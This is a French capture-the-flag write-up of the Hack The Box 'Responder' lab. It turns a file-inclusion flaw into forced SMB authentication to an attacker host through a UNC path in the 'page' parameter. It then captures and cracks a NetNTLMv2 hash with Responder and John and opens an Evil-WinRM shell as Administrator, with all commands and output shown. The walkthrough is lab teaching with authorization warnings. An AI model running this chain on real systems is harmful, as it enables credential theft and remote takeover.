


# Introduction

Bienvenue sur **Responder**, cette machine nous montre comment transformer une simple vulnérabilité **LFI (Local File Inclusion)** en une attaque beaucoup plus dangereuse : le vol de credentials **NetNTLMv2** via un serveur SMB malveillant.

Cette machine est un excellent exemple de chaîne d'exploitation : on découvre une application web vulnérable, on configure un piège (serveur SMB avec Responder), on intercepte un hash d'authentification, on le craque, puis on utilise les credentials pour se connecter via **WinRM**. Un classique du pentesting moderne.

>[!WARNING]
>Dans ce writeup, je ne publie pas directement le flag final, l'objectif est d'apprendre en pratiquant. Si vous voulez le flag, suivez les étapes sur la machine.

>[!CAUTION]
>**NOTE :** n'attaquez que des machines sur lesquelles vous avez l'autorisation (ex. machines HTB, ou lab perso). Respectez les règles de la plateforme.

## Vidéo Walkthrough

Je sortirais bientot un tuto vidéo, d'ici la tu peux aller checker ma chaine Youtube

 RavenBreach


---

## Reconnaissance

### Découverte d'hôte

On commence par l'habituel `ping` pour confirmer que la cible est en ligne et identifier le système d'exploitation via le TTL.

```bash
┌─[user@parrot]─[~]
└──╼ $ping 10.129.13.44

PING 10.129.13.44 (10.129.13.44) 56(84) bytes of data.
64 bytes from 10.129.13.44: icmp_seq=1 ttl=127 time=62.0 ms
64 bytes from 10.129.13.44: icmp_seq=2 ttl=127 time=15.3 ms
64 bytes from 10.129.13.44: icmp_seq=3 ttl=127 time=45.7 ms
64 bytes from 10.129.13.44: icmp_seq=4 ttl=127 time=15.5 ms
^C
--- 10.129.13.44 ping statistics ---
5 packets transmitted, 4 received, 20% packet loss, time 4024ms
rtt min/avg/max/mdev = 15.261/34.610/61.990/20.071 ms
```

Le **TTL de 127** nous indique qu'il s'agit d'une machine **Windows**.

### Énumération des services

Lançons un scan `nmap` pour identifier les services ouverts.

```bash
┌─[✗]─[user@parrot]─[~]
└──╼ $nmap -sV 10.129.13.44

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-18 18:57 UTC
Nmap scan report for 10.129.13.44
Host is up (0.016s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.01 seconds
```

On trouve le port **80** ouvert avec **Apache**. Il y a donc une application web à explorer.

### Scan approfondi

Pour en savoir plus, effectuons un scan plus détaillé avec les scripts par défaut (`-sC`).

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-pn2u2ebdwo]─[~]
└──╼ [★]$ nmap -p80 -sV -sC 10.129.27.4

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-09 04:02 CST
Nmap scan report for 10.129.27.4
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.69 seconds
```

Le site n'a pas de titre HTML particulier. Voyons ce qui se cache derrière cette application web.


Le navigateur ne trouve rien, et est redirigé vers `unika.htb` donc je décide de faire un scan sur TOUS les ports avant de me repencher sur cette redirection.

### Scan de tous les ports

Par précaution, lançons un scan complet pour ne rien manquer.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-pn2u2ebdwo]─[~]
└──╼ [★]$ nmap -p- --min-rate 1000 -sV 10.129.27.4

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-09 04:08 CST
Nmap scan report for 10.129.27.4
Host is up (0.035s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.13 seconds
```

Excellent ! On découvre le port **5985** : c'est **WinRM** (Windows Remote Management), un service qui permet d'administrer des machines Windows à distance via HTTP. Faisons un scan plus poussés sur le port **5985**.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-pn2u2ebdwo]─[~]
└──╼ [★]$ nmap -p5985 -sV -sC 10.129.27.4

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-09 04:15 CST
Nmap scan report for 10.129.27.4
Host is up (0.11s latency).
PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.08 seconds
```

Le scan ne nous donne pas beaucoup plus d'informations, mais nous savons maintenant que **WinRM** est accessible. Nous pourrons l'utiliser plus tard si nous obtenons des identifiants.

---

## Pré-Exploitation

### Exploration de l'application web

En accédant à l'IP via un navigateur, on tombe sur une erreur de redirection vers `unika.htb`.


#### Name-Based Virtual Hosting

Ce comportement est dû au **Name-Based Virtual Hosting**. Le serveur web héberge plusieurs sites sur la même IP, et il détermine quel site afficher en fonction du nom de domaine dans l'en-tête HTTP `Host`.

Pour résoudre ce problème, il faut ajouter une entrée dans notre fichier `/etc/hosts` pour associer l'IP à `unika.htb`.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-pn2u2ebdwo]─[~]
└──╼ [★]$ sudo nano /etc/hosts
```

Ajoutez la ligne suivante à la fin du fichier :

```
10.129.27.4 unika.htb
```


Maintenant, en accédant à `http://unika.htb` dans le navigateur, on arrive sur le site.



### Identification de la vulnérabilité LFI

Le site propose de changer la langue. En sélectionnant le français, l'URL devient :


Le paramètre `page` charge directement un fichier. Si ce paramètre n'est pas correctement sécurisé, il pourrait être vulnérable à une **LFI (Local File Inclusion)**.

### Transformation de LFI à RFI avec SMB

Au lieu d'essayer de lire des fichiers locaux (comme `/etc/passwd` sur Linux ou `C:\Windows\System32\drivers\etc\hosts` sur Windows), on va exploiter cette LFI de manière plus malicieuse en la transformant en **RFI (Remote File Inclusion)** via **SMB**.

L'idée est simple, on va demander au serveur de charger un fichier depuis **notre propre serveur SMB**. Lorsque le serveur Windows essaiera de se connecter à notre serveur, il enverra automatiquement son hash d'authentification **NetNTLMv2**. C'est ce hash qu'on va intercepter avec **Responder**.

---

## Exploitation

### Configuration de Responder

**Responder** est un outil qui simule plusieurs services réseau (SMB, HTTP, LDAP, etc.) pour intercepter les tentatives d'authentification. On va l'utiliser pour créer un faux serveur SMB.

Lancez Responder en spécifiant l'interface réseau à écouter avec le flag ``-I`` (ici `tun0`, l'interface VPN de HTB) :

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-dbsuxeeb9p]─[~/Responder]
└──╼ [★]$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[*] Tips jar:
    USDT -> 0xCc98c1D3b8cd9b717b5257827102940e4E17A19A
    BTC  -> bc1q9360jedhhmps5vpl3u05vyg4jryrl52dmazz49

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]
    DHCPv6                     [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.86]
    Responder IPv6             [dead:beef:2::1054]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-B0PTNKCMK25]
    Responder Domain Name      [UV3A.LOCAL]
    Responder DCE-RPC Port     [48982]

[*] Version: Responder 3.2.0.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>

[+] Listening for events...

[!] Error starting TCP server on port 80, check permissions or other servers running.
```

Responder est maintenant en écoute. 

### Déclenchement de l'attaque

Pour récupérer notre IP facilement, utilisez `ifconfig` :

Notez bien votre **IP** (ici `10.10.14.86`).

Maintenant, on va forcer le serveur Windows à tenter de se connecter à notre serveur SMB malveillant. Pour cela, on modifie le paramètre `page` dans l'URL pour pointer vers un chemin **UNC** (Universal Naming Convention) sur notre machine :

```bash
http://unika.htb/index.php?page=//10.10.14.86/share/textLFI.txt
```


Le serveur essaie de charger `textLFI.txt` depuis notre SMB. Pour ce faire, Windows envoie automatiquement les credentials de l'utilisateur qui exécute le service web (ici `Administrator`).

### Interception du hash NetNTLMv2

Responder intercepte la tentative de connexion et capture le hash :



Copions ce hash dans un fichier pour le craquer.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-dbsuxeeb9p]─[~]
└──╼ [★]$ echo "Administrator::RESPONDER:52724d36b4ad27b2:AFABFF96854B65A0CCFC3C46BB7
FFCDF:010100000000000000F87E0B4181DC01FCC658E9CE490EC900000000020008004600480035005600
01001E00570049004E002D0046003900520047005800440052004A0053003600480004003400570049004E
002D0046003900520047005800440052004A005300360048002E0046004800350056002E004C004F004300
41004C000300140046004800350056002E004C004F00430041004C000500140046004800350056002E004C
004F00430041004C000700080000F87E0B4181DC0106000400020000000800300030000000000000000100
000000200000C91FCC50327DECAC3EB50AF2F4A6EB3F42FB11B98D5C9B013CBA1CC1B377C0970A00100000
0000000000000000000000000000000900200063006900660073002F00310030002E00310030002E003100
34002E00380036000000000000000000" > hashUnika.txt
```

### Craquage du hash avec John The Ripper

**John The Ripper** est un outil de craquage de mots de passe. On va l'utiliser avec la wordlist **rockyou.txt** pour tenter de retrouver le mot de passe en clair.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-dbsuxeeb9p]─[~]
└──╼ [★]$ john -w=/usr/share/wordlists/rockyou.txt hashUnika.txt

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2026-01-09 08:37) 100.0g/s 409600p/s 409600c/s 409600C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Bingo ! Le mot de passe est **badminton**.

---

## Post-Exploitation

### Connexion via WinRM

Maintenant qu'on a les identifiants (`Administrator:badminton`), on peut se connecter au serveur via **WinRM** en utilisant **Evil-WinRM**, un outil qui simule un PowerShell à distance.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-dbsuxeeb9p]─[~]
└──╼ [★]$ evil-winrm -i 10.129.27.62 -u administrator -p badminton
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

On est connecté ! Vérifions notre identité :

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
responder\administrator
```

### Récupération du flag

Explorons le système pour trouver le flag :

```powershell
*Evil-WinRM* PS C:\Users\mike\Desktop> cat flag.txt

ea8{...}fac
```

La machine est ***pwned*** !
<!-- ---

## Pour aller plus loin

### Script automatisé
Ce n'est pas encore fait mais je prévois de faire un script automatisé !

### Rapport professionnel
Ce n'est pas encore fait mais je prévois de faire un rapport professionnel ! -->